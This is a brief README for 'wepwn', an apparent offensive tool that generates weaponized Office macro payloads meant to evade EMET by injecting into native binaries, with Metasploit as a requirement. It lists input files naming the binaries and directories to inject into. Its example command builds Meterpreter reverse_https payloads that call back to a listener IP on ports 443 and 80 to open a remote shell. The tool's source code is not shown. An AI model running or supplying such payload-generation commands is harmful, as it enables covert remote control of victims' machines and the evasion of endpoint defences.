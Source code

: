 wepwn - A generator to weaponize Macro payloads that can evade EMET through native VB migration.<br>
<br>
binary-paths.txt: a list of paths you want to inject into<br>
payload-list.txt: a current list of supported payloads<br>
directory-paths.txt: a list of directories that you want to recursively search for binaries to inject into<br>

Metasploit framework must be installed. It is a requirement.<p>

Example Usage:<br>
python wepwn.py 192.168.32.129 192.168.32.129 443 80 --x86 windows/meterpreter/reverse_https --x64 windows/x64/meterpreter/reverse_https

Further: pip install termcolor
<p>
<img src="screenshots/screenshot1.png"/>
